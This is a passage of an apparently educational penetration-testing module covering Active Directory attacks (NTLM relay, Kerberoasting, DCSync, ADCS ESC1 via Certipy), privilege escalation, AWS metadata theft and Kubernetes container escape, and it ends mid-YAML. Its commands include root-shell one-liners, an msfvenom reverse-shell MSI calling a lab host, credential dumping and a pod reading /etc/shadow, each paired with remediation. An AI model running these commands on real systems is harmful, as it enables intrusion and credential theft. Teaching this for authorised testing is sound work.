


# Volume 07: Network Penetration Testing
# Module 32: Network Penetration Testing Execution, Service Auditing & Pivoting

---

## 1. Learning Objectives

By completing this module, network penetration testers, infrastructure security auditors, and red team operators will be able to:
1. **Execute the Network Penetration Testing Lifecycle**: Conduct structured assessments across Discovery → Service Enumeration → Vulnerability Validation → Privilege Escalation → Pivoting → Documentation.
2. **Audit Core Infrastructure Protocols**: Evaluate security configurations of high-risk network services, including SMB (Ports 139/445), Remote Desktop (RDP / Port 3389), and Secure Shell (SSH / Port 22).
3. **Analyze SMB Signing & NTLM Relaying**: Inspect SMB2 NEGOTIATE responses to detect un-enforced SMB signing and evaluate exposure to Layer-2 NTLM relaying attacks.
4. **Architect Multi-Hop Encrypted Pivots**: Deploy modern SOCKS5 and Layer-3 virtual TUN pivot tunnels using Chisel, Ligolo-ng, and SSH dynamic forwarding to traverse internal firewall boundaries.
5. **Audit Endpoint Privilege Escalation Primitives**: Systematically uncover local privilege elevation vectors across Windows (CWE-428 Unquoted Service Paths, Token Impersonation) and Linux (dangerous SUID binaries, sudoer wildcard abuse).
6. **Validate Network Segmentation Resilience**: Formulate non-destructive proof-of-concept tests verifying whether internal VLAN access control lists (ACLs) prevent lateral movement.
7. **Exploit Active Directory Certificate Services (ADCS)**: Detect and exploit vulnerable certificate templates (ESC1–ESC8) and Shadow Credentials (`msDS-KeyCredentialLink`) to forge administrative credentials using Certipy and PKINIT.
8. **Assess Kubernetes Clusters & Break Out of Containers**: Harvest in-pod ServiceAccount tokens, audit RBAC rights, exploit unauthenticated Kubelets/etcd, and execute host escapes via privileged containers and cgroup release agents.

---

## 2. Prerequisites & Operational Requirements

To successfully master the concepts and practical implementations in this module, engineers require:
* **Networking & Lab Architectures**: Mastery of IP routing, virtual firewalls, and multi-tier network isolation ([Module 27](file:///home/kali/Ethical_Hacking_VAPT_Master_Notes/Volume_07_Network_Penetration_Testing/Module_27_Hands_on_Lab_Architecture.md)).
* **OS Administration**: Proficiency with Windows PowerShell commandlets (`Get-CimInstance`, `sc.exe`) and Linux shell utilities (`find`, `stat`, `ss`).
* **Tooling Infrastructure**: Kali Linux workstation with `netexec`, `chisel`, `proxychains4`, `nmap`, and Python 3.8+.

---

## 3. What Is It? (Architecture & Definitions)

Network Penetration Testing Execution represents the active validation phase of assessing enterprise infrastructure to determine whether discovered vulnerabilities allow an attacker to breach network perimeters, elevate local system privileges, or move laterally into restricted network segments.

Unlike automated vulnerability scanners—which produce disconnected, flat lists of open ports and banners—penetration testing execution focuses on **Attack Chains**: proving how a minor informational flaw (such as an un-enforced SMB signing policy) can be chained with a secondary defect (such as an unquoted service path on a dual-homed server) to bypass internal network firewalls and compromise core Active Directory domain controllers.

---

## 4. Deep Architecture: Multi-Hop Pivoting & Tunneling Fabrics



### 4.1 Encapsulated SOCKS5 vs. Layer-3 TUN Pivoting
* **Application-Layer SOCKS5 Pivoting (Chisel / SSH -D)**:
  * Operates at Layer 5/7 of the OSI model.
  * Assessor tools execute through dynamic linkers (`proxychains`), intercepting socket calls (`connect()`, `send()`, `recv()`) and directing them to a local SOCKS port (`127.0.0.1:1080`).
  * **Constraint**: Handles TCP streams only. Raw Layer-3 packets (ICMP ping, SYN scans `nmap -sS`, UDP sweeps) cannot be transmitted through user-space SOCKS5 proxies.
* **Layer-3 Network-Level TUN Pivoting (Ligolo-ng)**:
  * Creates a virtual software TUN/TAP adapter on the assessor machine.
  * Routes entire IP CIDR blocks (`10.10.20.0/24`) into the tunnel device using OS kernel routing tables (`ip route add 10.10.20.0/24 dev ligolo`).
  * **Benefit**: True Layer-3 IP forwarding. Allows standard TCP, UDP, and ICMP packets without requiring `proxychains`.

---

## 5. How It Works: Protocol Deconstruction & Service Auditing

### 5.1 Server Message Block (SMB2 / SMB3) Signing Verification
* **CWE-319 / CWE-287**: Under the MS-SMB2 specification, the server's `SMB2 NEGOTIATE Response` includes a 16-bit `SecurityMode` field:
  * Bit 0 (`0x01`): `SMB2_NEGOTIATE_SIGNING_ENABLED`
  * Bit 1 (`0x02`): `SMB2_NEGOTIATE_SIGNING_REQUIRED`
* **Vulnerability Analysis**: If bit 1 is zero (`required = False`), the server supports signed communication but will accept unsigned connections if requested by the client. An attacker positioned on Layer-2 can execute an **NTLM Relay Attack**: coercing a high-privilege account to authenticate, relaying the cryptographic challenge-response exchange to the unsigned target server, and establishing an administrative session without ever discovering or cracking the victim's password.

### 5.2 Windows Unquoted Service Paths (CWE-428)
When the Windows Service Control Manager (`services.exe`) initializes an auto-start service whose binary path contains spaces and lacks enclosing quotation marks, the Win32 `CreateProcess` API evaluates candidate binary locations hierarchically:
$$\text{Path: } \texttt{C:\textbackslash Program Files\textbackslash Corporate Tools\textbackslash Agent\textbackslash service.exe}$$
The operating system evaluates executable paths in this exact order:
1. `C:\Program.exe`
2. `C:\Program Files\Corporate.exe`
3. `C:\Program Files\Corporate Tools\Agent\service.exe`

If an unprivileged user possesses write permissions (`FILE_ADD_FILE`) to any intermediate directory (e.g., `C:\`), placing a benign binary named `Program.exe` results in arbitrary code execution running as `NT AUTHORITY\SYSTEM` upon service restart.

### 5.3 Active Directory Penetration Testing: Zero-to-Hero Attack Lifecycles

Active Directory Domain Services (AD DS) manages identity, access, and policy across more than 90% of enterprise environments. For a penetration tester or red team auditor, assessing Active Directory security is an indispensable core competency.

#### 5.3.1 Active Directory Core Architecture from Zero

```
[ Active Directory Forest: corp.local (Schema Master & Enterprise Admins) ]
                      │
        ┌─────────────┴─────────────┐
        ▼                           ▼
[ Domain: corp.local ]      [ Domain: dev.corp.local ]
  (Domain Admins)             (Tree Domain / Two-Way Trust)
        │
  ┌─────┴─────────────────────────┐
  ▼                               ▼
[ Domain Controllers (DCs) ]   [ Organizational Units (OUs) ]
  - KDC (Port 88: Kerberos)       - Workstations OU
  - LDAP (Port 389/636)           - Tier 1 Servers OU
  - Global Catalog (Port 3268)    - Domain Admins OU
  - SMB / SYSVOL (Port 445)       - Service Accounts OU
```

* **Domain Controller (DC)**: The central server hosting the Active Directory database (`NTDS.dit`), executing the Kerberos Key Distribution Center (KDC), and responding to LDAP directory queries.
* **SYSVOL**: A shared network directory (`\\corp.local\SYSVOL`) replicated to all domain controllers containing Group Policy Objects (GPOs), login scripts, and administrative templates readable by all authenticated domain users.
* **Service Principal Name (SPN)**: A unique identifier mapping a Windows service instance (e.g., `MSSQLSvc/db01.corp.local:1433`) to an Active Directory logon account under which the service executes.

#### 5.3.2 The Kerberos Authentication Protocol Dance

Kerberos (RFC 4120) is a symmetric-key ticket-based authentication protocol designed to eliminate transmission of cleartext passwords over the network. Understanding its 5-step exchange is essential for diagnosing authentication vulnerabilities:

```
[ Client (Alice) ]        [ Key Distribution Center (KDC) ]          [ Target Service ]
       │                                │                                    │
       ├──── 1. AS-REQ ────────────────>│ (Authentication Service Request)   │
       │<─── 2. AS-REP ─────────────────┤ (TGT Encrypted with krbtgt key)    │
       │                                │                                    │
       ├──── 3. TGS-REQ ───────────────>│ (Ticket-Granting Service Request)  │
       │<─── 4. TGS-REP ────────────────┤ (Service Ticket with Service Hash) │
       │                                │                                    │
       ├──── 5. AP-REQ (Mutual Auth) ───────────────────────────────────────>│
       │<─── 6. AP-REP (Session Confirm) ────────────────────────────────────┤
```

1. **AS-REQ (Authentication Service Request)**: Client sends user principal name and a pre-authentication timestamp encrypted using the user's password hash.
2. **AS-REP (Authentication Service Response)**: The KDC validates the timestamp. It returns a **Ticket Granting Ticket (TGT)** (encrypted using the secret `krbtgt` account key) and a temporary Login Session Key.
3. **TGS-REQ (Ticket Granting Service Request)**: Client presents the TGT and requests access to an application service identified by its SPN (e.g., `MSSQLSvc/sql01.corp.local`).
4. **TGS-REP (Ticket Granting Service Response)**: The KDC issues a **Service Ticket (TGS)** encrypted using the target **service account's password hash**, along with a Service Session Key.
5. **AP-REQ (Application Request)**: Client delivers the Service Ticket directly to the target application server. The service decrypts the ticket using its own password key, verifying the user's Privilege Attribute Certificate (PAC).

---

#### 5.3.3 The Core Active Directory Exploitation Primitives (The Big 6)

##### Attack 1: LLMNR / NBT-NS Poisoning & NTLM Relay
* **Mechanism**: When Windows clients cannot resolve a hostname via DNS, they fall back to Link-Local Multicast Name Resolution (LLMNR - UDP 5355) and NetBIOS Name Service (NBT-NS - UDP 137), broadcasting queries to the local subnet.
* **Audit Tooling**: `Responder.py` listens passively on Layer 2. When a victim broadcasts an unresolvable name (e.g., a typo `\\filesharee`), Responder answers, claiming to be the target server. The victim's machine initiates NTLM challenge-response authentication, sending its NetNTLMv2 hash (`username::domain:challenge:response`).
* **NTLM Relaying**: Instead of cracking the hash, tools like `ntlmrelayx.py` relay the captured authentication challenge live to a secondary server where **SMB Signing is Not Required** or to Active Directory Certificate Services (ADCS), instantly obtaining an administrative command shell.
* **Remediation**: Disable LLMNR via Group Policy (`Turn off multicast name resolution = Enabled`); disable NetBIOS on all network adapters; mandate SMB Signing (`Digitally sign communications (always) = Enabled`).

##### Attack 2: AS-REP Roasting
* **Mechanism**: If a user account has the Active Directory attribute `DONT_REQ_PREAUTH` enabled (`Do not require Kerberos preauthentication`), any unauthenticated or low-privileged user can send an `AS-REQ` for that username without providing a password timestamp.
* **Audit Tooling**: The KDC responds with an `AS-REP` containing a ticket encrypted with the user's password hash. Using `GetNPUsers.py -request -format hashcat -usersfile users.txt corp.local/`:
  ```bash
  # Crack offline using Hashcat Mode 18200 (Kerberos 5 AS-REP etype 23)
  hashcat -m 18200 asrep_hashes.txt rockyou.txt
  ```
* **Remediation**: Audit all user accounts and ensure "Do not require Kerberos preauthentication" is unchecked for all domain objects.

##### Attack 3: Kerberoasting
* **Mechanism**: Any authenticated domain user (even the lowest-privileged guest or compromised workstation) can query Active Directory via LDAP for all accounts with registered `servicePrincipalName` (SPN) attributes. The user then requests a Kerberos Service Ticket (`TGS-REQ`) for each SPN.
* **Audit Tooling**: The KDC issues the ticket (`TGS-REP`) encrypted with the NTLM/AES key of the user account running that service. The ticket is extracted from memory or network responses:
  ```bash
  # Enumerate and extract TGS tickets with Impacket
  GetUserSPNs.py corp.local/alice:Password123! -dc-ip 10.10.20.10 -request -outputfile kerberoast.hashes
  
  # Crack offline on a GPU cluster using Hashcat Mode 13100
  hashcat -m 13100 kerberoast.hashes rockyou.txt -r rules/best64.rule
  ```
* **Remediation**: Replace human-managed user service accounts with **Group Managed Service Accounts (gMSAs)**, which feature 120-character randomized passwords automatically rotated by the domain controller; enforce AES-256 Kerberos encryption.

##### Attack 4: Pass-the-Hash (PtH) & Overpass-the-Hash
* **Mechanism**: Windows protocols (SMB, RPC, WinRM) authenticate using the NTLM response derived directly from the NT hash (`MD4(UTF16LE(Password))`). The plain-text password is never required. If an auditor recovers an NTLM hash from LSASS memory, SAM, or `secretsdump.py`, they can authenticate directly across the network:
  ```bash
  # Authenticate over SMB without cracking the plaintext
  netexec smb 10.10.20.0/24 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 --local-auth
  ```
* **Overpass-the-Hash**: Converts an NTLM hash into a valid Kerberos Ticket Granting Ticket (TGT) by requesting an `AS-REQ` with the hash via `rubeus.exe asktgt` or Impacket `getTGT.py`.
* **Remediation**: Restrict local administrator accounts using Microsoft LAPS (Local Administrator Password Solution), preventing password re-use across endpoints; add privileged accounts to the **Protected Users** security group (which prohibits NTLM authentication and credential caching in LSASS).

##### Attack 5: DCSync Attack (Replication Rights Abuse)
* **Mechanism**: Active Directory Domain Controllers replicate directory data between each other using the Directory Replication Service Remote Protocol (MS-DRSR). If an account possesses the extended access rights `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` (granted to Domain Admins, Enterprise Admins, and Administrators by default), it can impersonate a domain controller and request synchronization of the entire directory.
* **Audit Tooling**:
  ```bash
  # Execute DCSync using Impacket secretsdump
  secretsdump.py corp.local/adminuser:Pass123!@10.10.20.10 -just-dc-user krbtgt
  ```
  The DC replies with the cleartext NTLM hash and AES-256 keys of the `krbtgt` account and every domain user, without running any executable code on the Domain Controller.
* **Remediation**: Strictly audit Active Directory ACLs at the domain root; ensure only genuine Domain Controller computer accounts possess `Replicating Directory Changes` rights.

##### Attack 6: Golden Ticket vs. Silver Ticket Persistence

| Dimension | Golden Ticket (TGT Forgery) | Silver Ticket (TGS Forgery) |
| :--- | :--- | :--- |
| **Forged Artifact** | Ticket Granting Ticket (TGT) | Service Ticket (TGS) |
| **Compromised Secret Key** | `krbtgt` account NTLM hash or AES-256 key | Specific Service Account NTLM/AES key (e.g., `sql_svc`) |
| **Scope of Access** | **Entire Active Directory Domain** (any user, any machine) | **Specific Service Only** (e.g., MSSQL on `db01`, CIFS on `fs01`) |
| **Domain Controller Contact**| Injected directly into memory; DC is contacted only to request secondary TGS tickets. | **Zero DC Contact**. The ticket is presented directly to the target application server. |
| **Default Lifetime** | Up to 10 years (customizable in forged ticket). | Up to 10 years (customizable). |
| **Detection Difficulty** | High. Appears as valid Kerberos TGT; detected by auditing ticket lifetime anomalies or invalid PAC signatures. | Extreme. Bypasses Domain Controller audit logs completely because the DC is never queried. |
| **Remediation Procedure** | Reset the `krbtgt` password **twice** with a 24-hour interval between resets to invalidate active TGTs and allow replication. | Reset the service account password twice; migrate service to gMSA. |

---

#### 5.3.4 Graph-Based Attack Path Analysis: BloodHound & SharpHound

Traditional Active Directory audits struggled with multi-hop permission chains. **BloodHound** uses graph theory to map relationships between AD objects (Users, Groups, Computers, OUs, GPOs) to discover hidden attack paths to Domain Admin:

```
[ Compromised User: bob ] 
       │ MemberOf
       ▼
[ Group: IT Helpdesk ]
       │ GenericAll (Full Control)
       ▼
[ Workstation: WS-ADMIN01 ] ──(Logged On Admin)──> [ Domain Admin: da_john ]
```

* **High-Risk BloodHound Edges Every Pentester Must Understand**:
  1. `GenericAll`: Grants complete object control. Allows resetting user passwords (`ForceChangePassword`), adding users to groups (`AddMember`), or modifying object attributes.
  2. `WriteDacl`: Grants permission to modify the object's Discretionary Access Control List. The attacker adds `GenericAll` for their own user account.
  3. `GenericWrite`: Grants permission to update any non-protected attribute (e.g., modifying `servicePrincipalName` to conduct Targeted Kerberoasting, or modifying `msDS-AllowedToDelegateTo` for Constrained Delegation abuse).
  4. `ForceChangePassword`: Allows resetting a victim's password directly without knowing their current credentials.
  5. `AddMember`: Allows adding arbitrary user accounts into high-privilege groups (e.g., `Domain Admins`, `Account Operators`, `Backup Operators`).

---

#### 5.3.5 Active Directory Certificate Services (ADCS) Exploitation: ESC1–ESC8 & Shadow Credentials

Active Directory Certificate Services (ADCS) is Microsoft's PKI implementation that automatically issues and manages X.509 digital certificates for users, computers, and services across a Windows domain. Certificates are frequently used for **Kerberos Pre-Authentication (PKINIT)**, allowing users to obtain a Kerberos Ticket Granting Ticket (TGT) using their certificate private key instead of a password.

```
[ Domain User / Attacker ] ──(1. Requests Certificate with forged SAN)──> [ ADCS Certification Authority (CA) ]
                                                                                   │
                                                                                   ▼ (2. Issues X.509 Certificate)
[ Attacker: admin.pfx ] <──────────────────────────────────────────────────────────┘
       │
       ▼ (3. Kerberos PKINIT Authentication via Port 88)
[ Domain Controller / KDC ] ──(4. Validates Cert & Issues Domain Admin TGT + NT Hash)──> [ Full Domain Compromise ]
```

##### 1. The Anatomy of Vulnerable Certificate Templates
A **Certificate Template** defines the enrollment rules, security descriptors, and cryptographic parameters for issued certificates. A template becomes exploitable for full domain privilege escalation when it satisfies three conditions:
1. **Client Authentication EKU**: The template specifies an Extended Key Usage (EKU) permitting Kerberos/Schannel client authentication (e.g., `Client Authentication` `1.3.6.1.5.5.7.3.2`, `Smart Card Logon` `1.3.6.1.4.1.311.20.2.2`, or `Any Purpose` `2.5.29.37.0`).
2. **Enrollee Supplies Subject Alternative Name (SAN)**: The template flag `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` (`msPKI-Certificate-Name-Flag` contains `0x00000001` / `ENROLLEE_SUPPLIES_SAN`) is set, allowing the requesting user to specify *any* arbitrary identity in the certificate's SAN attribute!
3. **Overly Permissive Enrollment Permissions**: Standard domain users (e.g., `Domain Users` or `Authenticated Users`) possess `Enroll` or `AutoEnroll` rights in the template's Discretionary Access Control List (DACL).

##### 2. The ESC (Certified Pre-Owned) Vulnerability Taxonomy

| Vulnerability Vector | Technical Flaw / Root Cause | Auditor Verification & Exploitation Impact |
| :--- | :--- | :--- |
| **ESC1** | Client Authentication EKU + `ENROLLEE_SUPPLIES_SAN` flag enabled + low-privilege enroll rights. | **Immediate Domain Admin**: Attacker requests certificate specifying `SAN=administrator@corp.local` and authenticates via PKINIT to receive a Domain Admin TGT. |
| **ESC2** | Template defines `Any Purpose` EKU (`2.5.29.37.0`) or has no EKU defined. | Can be used for any purpose, including client authentication or signing subordinate certificate requests. |
| **ESC3** | Template specifies `Certificate Request Agent` EKU (`1.3.6.1.4.1.311.20.2.1`). | Allows the holder to act as an enrollment agent, cryptographically co-signing certificate requests on behalf of arbitrary domain principals. |
| **ESC4** | Low-privilege account possesses `WriteDacl`, `WriteOwner`, or `GenericWrite` permissions over a Certificate Template object in Active Directory. | Attacker modifies the template DACL or reconfigures its flags into an **ESC1** configuration, requests an admin certificate, and restores the original template. |
| **ESC6** | The Certification Authority (CA) itself has the flag `EDITF_ATTRIBUTESUBJECTALTNAME2` enabled in registry. | **Universal ESC1**: The CA permits enrollees to supply SANs on **every** template, even if the template explicitly prohibits it! |
| **ESC8** | ADCS Web Enrollment HTTP endpoints (`http://<CA>/certsrv/`) do not enforce Extended Protection for Authentication (EPA) and run over plaintext HTTP. | **NTLM Relay to ADCS**: Attacker coerces machine account authentication (via PetitPotam / PrinterBug) and relays NetNTLM to the CA web service to obtain a machine certificate for a Domain Controller. |

##### 3. Practical Auditing & Exploitation with Certipy

```bash
# 1. Enumerate vulnerable ADCS templates and CAs across the domain
certipy find -u alice@corp.local -p 'Password123!' -dc-ip 10.10.20.10 -vulnerable -stdout

# 2. Exploit ESC1: Request a certificate on behalf of the Domain Administrator
certipy req -u alice@corp.local -p 'Password123!' -ca CORP-CA \
  -template ESC1Template -upn administrator@corp.local -dc-ip 10.10.20.10 -out admin.pfx

# 3. Authenticate via Kerberos PKINIT to retrieve Domain Admin TGT and NT Hash
certipy auth -pfx admin.pfx -dc-ip 10.10.20.10
# Output:
#   [*] Got TGT for 'administrator@corp.local'
#   [*] Saving credential cache to 'administrator.ccache'
#   [*] Got NT hash: 31d6cfe0d16ae931b73c59d7e0c089c0

# 4. Use the recovered NT hash to execute administrative commands via NetExec / WMI
netexec smb 10.10.20.10 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0 -x "whoami"
```

##### 4. Shadow Credentials (`msDS-KeyCredentialLink` Abuse)
* **Root Cause**: Windows Server 2016+ introduced Windows Hello for Business and Kerberos PKINIT authentication using an LDAP attribute on user and computer objects called `msDS-KeyCredentialLink`.
* **Exploitation Path**: If an attacker compromises an account with `GenericWrite` or `WriteProperty` rights over a target user or computer, but cannot reset the password (e.g., due to monitoring or high-privilege password protection):
  1. The attacker generates a self-signed X.509 certificate and private key.
  2. The attacker writes the certificate public key data directly to the victim's `msDS-KeyCredentialLink` attribute using tools like `whisker.py` or `pywhiskey`:
     ```bash
     python3 whisker.py add -target "target_dc$" -domain corp.local -u alice -p 'Password123!'
     ```
  3. The attacker immediately authenticates as the victim computer/user via Kerberos PKINIT using the generated certificate, extracting the account's NTLM hash and a valid TGT without alerting the victim!
* **Remediation**: Audit ACLs on `msDS-KeyCredentialLink` attribute writes; alert on unexpected modifications to computer object attributes using Windows Event ID 5136.

---

### 5.4 Linux & Windows Local Privilege Escalation (PrivEsc) Master Framework

Obtaining an initial remote shell grants access as a low-privileged system user (e.g., `www-data` on Linux or `IIS_IUSRS` / standard domain user on Windows). The objective of local privilege escalation is elevating access to administrative control (`root` on Linux, `NT AUTHORITY\SYSTEM` on Windows).

#### 5.4.1 Linux Privilege Escalation Methodology

```
[ Step 1: Situational Awareness ]
  whoami && id && uname -a && cat /etc/os-release && ss -tuln
        │
[ Step 2: Sudo Permissions Audit ]
  sudo -l (Identify commands executable with NOPASSWD)
        │
[ Step 3: SUID / SGID Binary Search ]
  find / -perm -4000 -type f 2>/dev/null (Cross-reference with GTFOBins)
        │
[ Step 4: POSIX Capabilities ]
  getcap -r / 2>/dev/null (Look for cap_setuid, cap_dac_override)
        │
[ Step 5: Scheduled Automation & Cron ]
  cat /etc/crontab /etc/cron.* (Inspect world-writable automated scripts)
        │
[ Step 6: Container / Docker Socket Exposure ]
  ls -l /var/run/docker.sock (Mount host root filesystem in container)
```

* **Core Linux Vectors & GTFOBins**:
  1. **Sudo Wildcard / Command Abuse**: If `sudo -l` reveals `(ALL) NOPASSWD: /usr/bin/find`, executing:
     ```bash
     sudo find . -exec /bin/sh -p \; -quit
     ```
     instantly spawns a root shell.
  2. **Dangerous Linux Capabilities**: If a binary possesses `cap_setuid+ep` (e.g., `/usr/bin/python3 = cap_setuid+ep`), execution can set real and effective user ID to 0:
     ```bash
     python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
     ```
  3. **Docker Group / Socket Abuse**: If the compromised user belongs to the `docker` group or has write access to `/var/run/docker.sock`, they execute a container mounting the host root filesystem:
     ```bash
     docker run -v /:/host -it alpine chroot /host /bin/sh
     ```

#### 5.4.2 Windows Privilege Escalation Methodology

```
[ Step 1: Account Context & Privileges ]
  whoami /all && whoami /priv (Inspect SeImpersonatePrivilege, SeAssignPrimaryToken)
        │
[ Step 2: Unquoted Service Paths & Insecure Permissions ]
  wmic service get name,displayname,pathname,startmode | findstr /i "auto"
        │
[ Step 3: AlwaysInstallElevated Policy ]
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
        │
[ Step 4: Stored Credentials & DPAPI ]
  cmdkey /list && vaultcmd /list (Look for stored Domain Administrator creds)
        │
[ Step 5: Kernel Exploit Fallback (Last Resort) ]
  systeminfo (Check OS build and missing Hotfixes)
```

* **Core Windows Vectors**:
  1. **Token Impersonation (`SeImpersonatePrivilege`)**: Common on IIS service accounts (`iis apppool\defaultapppool`) and MSSQL services. Enables creating a rogue named pipe and coercing a local `SYSTEM` process (via `RpcRemoteFindNextPrinterChange` in PrintSpoofer, or DCOM in SweetPotato/GodPotato) to connect to it, stealing the `SYSTEM` access token.
  2. **Insecure Service ACLs**: If an unprivileged user possesses `SERVICE_CHANGE_CONFIG` rights on a Windows service, they can reconfigure the service binary path to execute arbitrary commands:
     ```cmd
     sc.exe config "VulnerableService" binPath= "cmd.exe /c net localgroup administrators lowprivuser /add"
     sc.exe stop "VulnerableService"
     sc.exe start "VulnerableService"
     ```
  3. **AlwaysInstallElevated**: If both `HKLM` and `HKCU` registry entries have `AlwaysInstallElevated = 1`, Windows executes `.msi` installation packages with `NT AUTHORITY\SYSTEM` privileges:
     ```bash
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f msi -o update.msi
     msiexec /quiet /qn /i update.msi
     ```

---

### 5.5 Cloud Penetration Testing Essentials: AWS & Azure Foundations

As enterprise workloads migrate to public cloud providers, modern penetration testers must audit cloud infrastructure without relying on traditional network port scanning.

#### 5.5.1 The Cloud Shared Responsibility Model
* **Infrastructure as a Service (IaaS)**: Customer is responsible for OS patching, network firewall rules, IAM roles, application code, and data storage. Cloud provider guarantees physical data center security, hypervisor isolation, and hardware integrity.
* **Authorization Scope**: Major cloud vendors (AWS, Microsoft Azure, Google Cloud) permit penetration testing of customer-owned virtual machines and serverless functions without prior authorization, provided testing strictly adheres to their **Cloud Rules of Engagement** (e.g., strictly prohibiting DoS attacks or testing shared physical hypervisors).

#### 5.5.2 AWS Penetration Testing Essentials

```
[ Compromised Web App (SSRF Flaw) ]
               │
               ▼
[ Query AWS Instance Metadata Service (IMDS) ]
  http://169.254.169.254/latest/meta-data/iam/security-credentials/<RoleName>
               │
               ▼
[ Harvest Temporary Security Credentials (STS) ]
  AccessKeyId, SecretAccessKey, Token
               │
               ▼
[ Enumerate IAM Permissions & Privilege Escalation ]
  aws sts get-caller-identity
```

* **Instance Metadata Service (IMDSv1 vs. IMDSv2)**:
  * **IMDSv1 (Vulnerable to SSRF)**: Allows reading instance metadata via simple unauthenticated HTTP GET requests (`curl http://169.254.169.254/latest/meta-data/iam/security-credentials/`). If a web application contains an SSRF vulnerability, the attacker exfiltrates the EC2 instance's IAM role keys.
  * **IMDSv2 (Defensive Hardening)**: Mandates session-oriented requests using a `PUT` request with a token header (`X-aws-ec2-metadata-token-ttl-seconds: 21600`) to retrieve a token, which must be passed in subsequent `GET` requests. This neutralizes basic SSRF vectors.
* **S3 Bucket Security Auditing**:
  * Testing public read/write exposure:
    ```bash
    aws s3 ls s3://target-corp-backups/ --no-sign-request
    ```
  * Enforcing bucket policies: Mandate `Block Public Access` at the AWS Organization level; enforce server-side encryption with AWS KMS.
* **IAM Privilege Escalation Vectors**:
  * Exploiting `iam:CreatePolicyVersion`: If an IAM user has permission to create a new policy version, they create a version granting `Effect: Allow, Action: *, Resource: *` and set it as default.
  * Exploiting `iam:AttachUserPolicy`: An attacker attaches the `AdministratorAccess` managed policy directly to their own identity.

#### 5.5.3 Microsoft Azure & Entra ID (Azure AD) Essentials
* **Entra ID vs. Traditional Active Directory**: Entra ID is a cloud-based identity provider operating over REST APIs (Microsoft Graph) using OAuth 2.0, OpenID Connect, and SAML—it does not use Kerberos, NTLM, or LDAP.
* **Service Principals & Managed Identities**: Applications hosted in Azure (e.g., App Services, Virtual Machines) use Managed Identities to obtain Azure Resource Manager (ARM) tokens without hardcoding credentials in configuration files.
* **Azure Key Vault Auditing**: Auditors evaluate Key Vault access policies to verify whether unprivileged application identities can retrieve secrets, connection strings, or administrative signing certificates.

---

### 5.6 Kubernetes (K8s) Cluster Pentesting & Cloud Container Breakouts

Kubernetes is the de facto orchestration engine for containerized applications in cloud environments. Understanding how to assess a cluster from an initially compromised pod to full node or control plane compromise is critical for modern cloud penetration testing.



#### 5.6.1 Container Discovery & ServiceAccount Token Extraction

When an auditor lands a remote shell in an unknown Linux environment, the first step is detecting whether the process is trapped inside a container:
1. **Container Indicators**:
   - Check process 1 cgroup: `grep -i -E "docker|kubepods|containerd" /proc/1/cgroup`
   - Check file indicators: `ls -la /.dockerenv`
   - Check environment variables: `env | grep -i KUBERNETES` (e.g., `KUBERNETES_SERVICE_HOST`, `KUBERNETES_PORT_443_TCP_PORT`).
2. **In-Pod ServiceAccount Token Harvesting**:
   By default, Kubernetes mounts a service account JWT token inside every running pod:
   ```bash
   SA_PATH="/var/run/secrets/kubernetes.io/serviceaccount"
   ls -la $SA_PATH
   # Contains: ca.crt, namespace, token
   
   TOKEN=$(cat $SA_PATH/token)
   NAMESPACE=$(cat $SA_PATH/namespace)
   ```
3. **Querying the Kubernetes API Server**:
   ```bash
   APISERVER="https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}"
   
   # Query API Server using harvested ServiceAccount JWT
   curl -s --cacert $SA_PATH/ca.crt \
        -H "Authorization: Bearer $TOKEN" \
        "$APISERVER/api/v1/namespaces/$NAMESPACE/pods"
   ```

#### 5.6.2 Kubernetes RBAC Privilege Escalation

Once the token is acquired, evaluate what actions the service account is authorized to perform:
```bash
# Check all permissions granted to current token
kubectl auth can-i --list --token="$TOKEN" --server="$APISERVER" --certificate-authority="$SA_PATH/ca.crt"
```

##### Critical Dangerous RBAC Permissions:
1. **`create pods` or `create deployments`**:
   An attacker creates a malicious pod definition mounting the underlying host's root filesystem (`/`) to escape the container:
   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: node-escape-pod
     namespace: default
   spec:
     containers:
     - name: escape-container
       image: alpine:latest
       command: ["/bin/sh", "-c", "chroot /host /bin/sh -c 'id; cat /etc/shadow'"]
       securityContext:
         privileged: true
       volumeMounts:
       - mountPath: /host
         name: host-root
     volumes:
     - name: host-root
       hostPath:
